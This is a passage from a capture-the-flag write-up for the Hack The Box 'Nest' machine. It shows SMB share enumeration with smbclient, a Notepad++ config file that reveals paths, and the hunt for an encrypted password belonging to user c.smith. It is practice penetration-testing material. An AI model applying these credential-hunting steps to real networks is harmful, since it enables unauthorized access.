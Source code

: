 * **but we can't read the user flag yet so we need to dig more.**

* **after some digging into the files i found dir which contain a file and in this file i found the encreypted password for c.smith user**.

![](https://i.ibb.co/jGdjYWX/smith.png)

## []()Decrypt C.SMITH Password

* after some enumeration and trying to decrypt the password i found some files that will help us to decrypt the password.

* in the **NotepadPlusPlus** I found a config file and this file help me to go to the VB Projects and this Projects we will use it for Decrypting the password.

```ruby

smb: \IT\Configs\> cd NotepadPlusPlus\
smb: \IT\Configs\NotepadPlusPlus\> ls
  .                                   D        0  Wed Aug  7 15:31:37 2019
  ..                                  D        0  Wed Aug  7 15:31:37 2019
  config.xml                          A     6451  Wed Aug  7 19:01:25 2019
  shortcuts.xml                       A     2108  Wed Aug  7 15:30:27 2019



```

* and here is the interested lines in the config file

```ruby

    </FindHistory>
    <History nbMaxFile="15" inSubMenu="no" customLength="-1">
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
    </History>
</NotepadPlus>

```
* The file Temp.txt is contained within nested subfolders of the Secure$ share. Let's try to
recursively list the IT\Carl subfolder.

```ruby

smbclient  \\\\10.10.10.178\\Secure$ -U TempUser
Enter WORKGROUP\TempUser's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug  7 19:08:12 2019
  ..                                  D        0  Wed Aug  7 19:08:12 2019
  Finance                             D        0  Wed Aug  7 15:40:13 2019
  HR                                  D        0  Wed Aug  7 19:08:11 2019
  IT                                  D        0  Thu Aug  8 06:59:25 2019
cd 
		10485247 blocks of size 4096. 6545667 blocks available
smb: \> cd IT/Carl
smb: \IT\Carl\> ls
  .                                   D        0  Wed Aug  7 15:42:14 2019
  ..                                  D        0  Wed Aug  7 15:42:14 2019
  Docs                                D        0  Wed Aug  7 15:44:00 2019
  Reports                             D        0  Tue Aug  6 09:45:40 2019
  VB Projects                         D        0  Tue Aug  6 10:41:55 2019

```
* downloaded all of this files 
